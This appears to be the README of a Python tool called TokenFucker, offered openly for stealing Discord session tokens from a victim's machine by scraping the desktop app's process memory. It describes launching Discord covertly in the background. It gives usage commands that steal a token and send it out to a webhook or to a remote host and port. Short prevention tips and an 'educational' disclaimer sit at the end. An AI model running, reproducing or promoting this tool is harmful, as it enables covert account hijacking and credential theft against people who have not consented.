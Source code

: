 # TokenFucker
![TokenFucker](https://media.discordapp.net/attachments/843628315146321940/1049398161254391808/TokenFucker5.png?width=960&height=346)
<p align="center">
    <em>Cross plataform tool for Discord Token Stealing</em></p>



---

**Discord:** ZaikoARG#1187

---

TokenFucker is a cross-platform tool for Windows and Linux written in python, with the functionality to steal Discord user tokens in a few seconds. 
It is a tool that runs on the victim's machine, and it needs the victim to have the desktop application installed to work. It offers the ability to run even when the desktop application is closed.

Next, the most relevant functions of TokenFucker will be detailed:
* **Cross platform support:** TokenFucker works on both Windows and Linux (*tested only on its latest versions*)
* **Discord's Ghost Execution:** TokenFucker requires the Discord desktop app to be running to work.
But if it is not running, our tool can run it from behind, without anyone knowing.
* **Send Tokens via a Discord Webhook:** If you want, you can specify a Discord Webhook URL on the command line, so that the Token will be sent by that Webhook automatically when found.
* **Send Tokens to a Remote Host:** If you want, you can send the obtained Token to a Remote Host, specifying a host and a specific port (TCP) on the command line.

---

## Example of Usage

Steal User Discord Token

`python3 tokenfucker.py -r`

Steal a discord token by specifying the Discord desktop app binary

`python3 tokenfucker.py -df C:\Users\ZaikoARG\Documents\Discord\Discord.exe -r`  

Steal a discord token and send it to a webhook

`python3 tokenfucker.py -wh {URL} -r`

Steal a discord token and send it to a Remote Host

`python3 tokenfucker.py -rh 10.10.14.37,443 -r`

## Documentation
`python3 tokenfucker.py (options) -r`
|Option|Description|
|--|--|
|-df, --discord-file [PATH]|Enter discord binary file manually.|
|-wh, --webhook-url [URL]|Send Result to Webhook.|
|-rh, --remote-host [HOST,PORT]|Send to Remote Host (Introduce Host and Port separated by comma) Example: python tokenfucker.py -rh 127.0.0.1,443|
|--no-root|Disable root checking on Linux Systems (The steal may not work properly).|
|-r|Run the Token Stealing.|

## Functioning
TokenFucker exploits a Discord Desktop Application Memory leak vulnerability to obtain the user's Discord Token.

What TokenFucker does, going into a little more detail, is to look in the memory of the Discord desktop application process, for the authentication headers, which contain the token, sent in the communication between the application and the discord server.


What happens is that the Discord application, every time it has to communicate with its servers for different things, such as sending messages, downloading messages, updating chats and a long etc... makes a web request to these, and to verify which user these requests are being made, a Session Token is used, which is the famous Discord Token that we are looking for so much. This token is sent in a header called Authentication.
When the Discord application creates the request and sends it to the servers, certain data is reflected in the process memory, such as the Authentication header and the user's Token.

## Protection and Prevention
To protect yourself and prevent Discord token theft, I recommend the following:
* Do not save passwords in your browser and do not remember sessions in the browser.
* If possible, do not use the Discord Desktop application, use the Browser instead.
* Log out of your Discord account always, both in the Browser and in the Desktop Application.
* Do not download suspicious or unofficial things from the internet or open any link they send you, without trusting their origins, or verifying them.


## Disclaimer
**This tool was created only for educational purposes, its creators are not responsible for the misuse anyone can give it.**


## License
Copyright © 2022, ZaikoARG. All rights reserved.

Licensed under the Apache 2.0 License.
